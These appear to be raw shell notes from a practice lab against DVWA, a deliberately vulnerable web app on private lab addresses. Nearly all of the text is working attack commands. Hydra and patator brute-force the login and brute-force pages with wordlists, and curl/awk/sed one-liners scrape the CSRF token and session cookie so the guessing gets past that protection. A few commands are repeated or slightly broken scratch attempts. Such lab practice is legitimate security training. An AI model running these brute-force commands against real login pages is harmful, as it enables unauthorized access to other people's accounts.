 CSRF=$(curl -s -c dvwa.cookie "192.168.1.44/DVWA/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')

hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt  -P /usr/share/seclists/Passwords/500-worst-passwords.txt \
  -e ns  -F  -u  -t 1  -w 10  -V  192.168.1.44  http-post-form \
  "/DVWA/login.php:username=^USER^&password=^PASS^&user_token=${CSRF}&Login=Login:S=Location\: index.php:H=Cookie: security=impossible; PHPSESSID=${SESSIONID}"

patator  http_fuzz  method=POST  follow=0  accept_cookie=0 --threads=1  timeout=10 \
  url="http://192.168.1.44/DVWA/login.php" \
  1=/usr/share/seclists/Usernames/top_shortlist.txt  0=/usr/share/seclists/Passwords/500-worst-passwords.txt \
  body="username=FILE1&password=FILE0&user_token=${CSRF}&Login=Login" \
  header="Cookie: security=impossible; PHPSESSID=${SESSIONID}" \
  -x quit:fgrep=index.php




curl -s  http://192.168.110.20 | sed -n "/<pre>/,/<\/pre>/p" 
curl -s  http://192.168.110.20 | sed -n "/<title>/,/<\/title>/p" 
curl -s  http://192.168.110.20 | sed -n "/<title>/,/<\/title>/p"

curl -s  http://192.168.110.20 | sed -n "/<p>/,/<\/p>/p" 

sed -n '/<table class="my-table">/,/<\/table>/p'  <file>

<form action="login.php" method="post">

<input type="text" class="loginInput" size="20" name="username"><br>
<input type="password" class="loginInput" name="password"><br>

<input type="submit" value="Login" name="Login">

<input type="hidden" name="user_token" value="05fb13e70b03acf55502357d5a634a1d">

</form>


CSRF=$(curl -s -c dvwa.cookie "192.168.110.20/DVWA/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')
curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "192.168.110.20/DVWA/login.php"

hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt  -P /usr/share/seclists/Passwords/rockyou-40.txt \
  -e ns  -F  -u  -t 1  -w 10  -v  -V  192.168.110.20  http-get-form \
  "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"

patator  http_fuzz  method=GET  follow=0  accept_cookie=0  --threads=1  timeout=10 \
  url="http://192.168.110.20/DVWA/vulnerabilities/brute/?username=FILE1&password=FILE0&Login=Login" \
  1=/usr/share/seclists/Usernames/top_shortlist.txt  0=/usr/share/seclists/Passwords/rockyou-40.txt \
  header="Cookie: security=low; PHPSESSID=${SESSIONID}" \
  -x quit:fgrep='Welcome to the password protected area'





curl -s -b 'security=low' -b dvwa.cookie 'http://192.168.110.20/DVWA/vulnerabilities/brute/' | sed -n '/<div class="body_padded/,/<\/div/p'
< div class="body_padded">

curl -s -c dvwa.cookie 'http://192.168.110.20/DVWA/login.php' | awk -F 'user_token' '{print $0}'


CSRF=$(curl -s -c dvwa.cookie 'http://192.168.110.20/DVWA/login.php' | awk -f 'value=' )

SESSIONID=$(grep PHPSESSID dvwa.cookie | cut -d $'\t' -f7)
SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')


CSRF=$(curl -s -c dvwa.cookie 'http://192.168.110.20/DVWA/login.php' | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)





└─$ curl -s -c dvwa.cookie  http://192.168.110.20/DVWA/login.php | sed -n '/<form action="login.php" method="post">/,/<\/form>/p'
└─$ curl -s -c dvwa.cookie  http://192.168.110.20/DVWA/login.php | sed -n '/<form.*>/,/<\/form>/p'
└─$ curl -s -c dvwa.cookie  http://192.168.110.20/DVWA/login.php | sed -n '/<form.*>/,/<\/form>/p' | sed  '/^[[:space:]]*$/d' | sed 's/^[[:space:]]*//'

curl -s -c dvwa.cookie  http://192.168.110.20/DVWA/login.php | sed -n '/<form.*>/,/<\/form>/p' | sed  '/^[[:space:]]*$/d' | 
sed 's/^[[:space:]]*//' 

<input type='hidden' name='user_token' value='990784a441b2a99cb0eed323b7d88ed7' />

curl -s -c dvwa.cookie  http://192.168.110.20/DVWA/login.php |  sed -n '/user_token/s/.*name="user_token"\s\+value="\([^"]\+\).*/\1/p' 

<input type='hidden' name='user_token' value='b3d8b2b77b9c42de17515130a63481d9' />

curl -s -c dvwa.cookie  http://192.168.110.20/DVWA/login.php |  sed -n "/user_token/s/.*name='user_token'\s\+value='\([^'']\+\).*/\1/p"


sed -n '/token/s/.*name="ltoken"\s\+value="\([^"]\+\).*/\1/p' input_file

└─$ curl -s -c dvwa.cookie  http://192.168.110.20/DVWA/login.php |  sed -n "/user_token/s/.*name='user_token'\s\+value='\([^']\+\).*/\1/p"
a3271b9bf9de788b760f5584450ce83d

└─$ curl -s -c dvwa.cookie  http://192.168.110.20/DVWA/login.php |   awk -F 'value='  '/user_token/ {print $2}' | cut -d "'" -f2
6d1785df68c349116c578419445f2e83
